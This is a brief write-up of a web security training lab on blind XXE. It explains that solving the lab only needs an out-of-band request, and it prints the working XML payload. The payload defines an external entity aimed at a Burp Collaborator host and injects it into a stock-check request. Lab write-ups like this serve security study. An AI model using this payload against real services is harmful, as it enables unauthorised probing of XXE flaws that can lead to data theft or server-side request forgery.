 # Lab: Blind XXE with out-of-band interaction
## Description
This lab was relatively simply. No extraction of data required. All you had to do, to solve it, was to trigger an out-of-band request.

## Solution
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://77cgpbqnvjgmexmj5fiivfpia9gz4o.burpcollaborator.net/"> ]>
<stockCheck>
  <productId>4</productId>
  <storeId>&xxe;</storeId>
</stockCheck>
```
